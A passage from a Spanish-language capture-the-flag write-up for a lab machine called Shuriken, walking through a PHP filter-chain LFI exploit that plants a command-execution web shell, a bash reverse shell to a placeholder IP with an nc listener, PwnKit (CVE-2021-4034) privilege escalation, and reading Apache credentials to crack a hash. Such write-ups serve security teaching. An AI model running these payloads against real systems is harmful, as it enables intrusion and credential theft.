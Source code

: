```zsh
> python3.9 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]) ?>'
```

>Lo que nos devuelva esto, será toda la cadena de filtros utilizados para generar el string `<?php system($_GET['cmd']); ?>`.
>Esta cadena la pegamos en la URL y le concatenamos a la misma el parámetro CMD para ejecutar comandos. La url quedaría de la forma `http://shuriken.local/index.php?referer=<Acá va la cadena>&cmd=whoami`.

![[Captura de pantalla (385).png]]({%link assets/img/shuriken/8.png%})

>Vemos que se está ejecutando y nos devuelve `www-data`. Intentemos concatenar nuestro comando para ganar una [[Reverse Shell]]. En este caso, será `bash -c 'bash -i >&/dev/tcp/tuIp/tuPuerto 0>&1'`. Mientras, nosotros nos pondremos en escucha de conexiones TCP con `nc` en el puerto especificado, usando el comando `nc -nlvp tuPuerto`.

![[Captura de pantalla (388).png]]({%link assets/img/shuriken/9.png%})

>Aprovechamos para hacer un tratamiento de la TTY y tener una consola interactiva.

>Si enumeramos, el archivo `/usr/bin/pkexec` es SUID y la versión del mismo es vulnerable al CVE-2021-4034. Podríamos intentar explotarlo y ganar acceso directo a root con este script que explota la vulnerabilidad [PwnKit](https://github.com/ly4k/PwnKit). La vulnerabilidad se da a partir del manejo de argumentos pasados al programa `pkexec` y cómo puede llevar a una reescritura de variables de entorno. Para más información, [acá](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt) está el artículo de los investigadores.

![[Captura de pantalla (397).png]]({%link assets/img/shuriken/10.png%})

![[Pasted image 20240308173157.png]]({%link assets/img/shuriken/11.png%})

## Segunda opción

>Sin embargo, hay otro camino para entrar en la máquina. Si hubiésemos aprovechado el LFI para leer las credenciales del subdominio `broadcast.shuriken.local`, había otra forma de ejecutar comandos en la máquina víctima. Buscamos (ya adentro de la máquina) por archivos que contengan la palabra `broadcast` y encontramos lo siguiente.

![[Pasted image 20240308172810.png]]({%link assets/img/shuriken/12.png%})

>En el archivo `sites-available/000-default.conf`, tendremos la configuración para este subdominio, y probablemente las credenciales.

![[Pasted image 20240308172916.png]]({%link assets/img/shuriken/13.png%})

>Si vemos el archivo de autorización:

![[Pasted image 20240308173044.png]]({%link assets/img/shuriken/14.png%})

>Todo esto lo hubiésemos podido leer con el LFI previamente explotado, sin necesidad de tener acceso a la máquina.
>Es un hash. Podemos intentar crackearlo con `john`.
